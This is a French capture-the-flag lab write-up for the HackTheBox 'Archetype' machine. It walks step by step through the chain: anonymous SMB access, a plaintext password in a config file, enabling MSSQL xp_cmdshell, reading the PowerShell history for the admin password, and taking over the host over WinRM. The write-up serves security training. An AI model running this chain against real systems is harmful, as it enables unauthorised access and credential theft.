

[⬅ Retour à Starting Point](../README.md) · [🏠 Accueil du repo](../../../README.md)

# Machine 12 — Archetype

**MSSQL + `xp_cmdshell` + credentials réutilisés — Ports 445, 1433, 5985**

| | |
|---|---|
| **Tier** | 2 |
| **OS** | Windows Server 2019 |
| **Services** | SMB (445) · MSSQL (1433) · WinRM (5985) |

## Concept

Première machine Windows de la série. Un partage SMB anonyme expose un fichier de configuration contenant un mot de passe en clair, permettant une connexion authentifiée à MSSQL. L'activation de `xp_cmdshell` donne l'exécution de commandes, qui révèle à son tour (via l'historique PowerShell) le mot de passe Administrator, réutilisé pour un accès complet via WinRM.



## Méthodologie

### Scan de ports

```bash
sudo nmap -sC -sV 10.129.x.x
```

```
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
5985/tcp  open  wsman
```

OS : Windows Server 2019, nom NetBIOS : `ARCHETYPE`.

### Énumération SMB (session anonyme)

```bash
smbclient -L //10.129.x.x/ -N
```

```
ADMIN$   backups   C$   IPC$
```

`backups` n'est pas un partage administratif standard — on l'inspecte :

```bash
smbclient //10.129.x.x/backups -N
```

```
smb: \> get prod.dtsConfig
smb: \> exit
```

```bash
cat prod.dtsConfig
```

```
ConnectionString: Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```

### Connexion MSSQL authentifiée

```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.x.x -windows-auth
```

### Activation de `xp_cmdshell`

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

```sql
xp_cmdshell whoami
-- archetype\sql_svc
```

```sql
xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
```

### Fuite du mot de passe Administrator (historique PowerShell)

```sql
xp_cmdshell type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

→ mot de passe Administrator en clair : `MEGACORP_4dm1n!!`.

### Accès complet via WinRM

```bash
evil-winrm -i 10.129.x.x -u administrator -p 'MEGACORP_4dm1n!!'
```

```powershell
whoami
# archetype\administrator
type C:\Users\Administrator\Desktop\root.txt
```

## Points clés

- Un partage SMB accessible en session anonyme (`-N`) peut contenir des fichiers de configuration avec des identifiants en clair.
- Les fichiers `.dtsConfig` (SSIS / SQL Server Integration Services) stockent fréquemment des chaînes de connexion avec mot de passe en clair.
- `impacket-mssqlclient` permet une connexion authentifiée à MSSQL directement depuis Linux.
- `xp_cmdshell` est une procédure stockée étendue MSSQL permettant d'exécuter des commandes système — désactivée par défaut, réactivable avec les droits sysadmin.
- L'historique PowerShell (`ConsoleHost_history.txt`, via PSReadLine) conserve toutes les commandes tapées, y compris les mots de passe passés en argument.
- La réutilisation du même mot de passe entre différents comptes/services est une faille humaine récurrente.
- WinRM (port 5985) est le pendant Windows de SSH pour l'administration à distance ; `evil-winrm` en est le client offensif de référence.

## Leçon retenue

*La chaîne complète (partage SMB ouvert → fichier de config avec mot de passe → accès SQL → `xp_cmdshell` → historique PowerShell → mot de passe admin) montre que sur Windows, l'énumération de fichiers de configuration et d'historiques de commandes est aussi cruciale que l'exploitation technique pure.*

---

[⬅ Précédent : Oopsie](11-oopsie.md) · [⬆ Index Starting Point](../README.md) · [Suivant : Unified ➡](13-unified.md)
